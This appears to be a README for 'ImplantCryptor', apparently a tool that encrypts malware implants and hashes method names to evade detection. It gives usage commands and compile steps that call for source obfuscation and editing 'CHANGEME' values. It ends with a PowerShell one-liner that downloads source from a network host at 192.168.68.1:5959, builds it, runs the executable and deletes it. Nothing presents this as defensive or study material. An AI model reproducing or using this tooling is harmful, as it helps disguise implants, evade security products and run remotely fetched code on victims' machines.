 # Usage
## Encrypt
```
ImplantCryptor -e filePath.exe
```
## Hash
```
ImplantCryptor -h SomeMethodName
```

# Compile
1. This is meant to be source-obfuscated first!
2. In `Program.cs` change values in "CHANGEME" section.
3. `dotnet publish --runtime win-x64`

```
Remove-Item -Force -Recurse .\192.168.68.1+5959\; wget.exe -r -R "index.htlm" -np http://192.168.68.1:5959/; dotnet publish .\192.168.68.1+5959\; cp .\192.168.68.1+5959\bin\Release\net462\publish\ImplantCryptor.exe . ; .\ImplantCryptor.exe ; del .\ImplantCryptor.exe
```
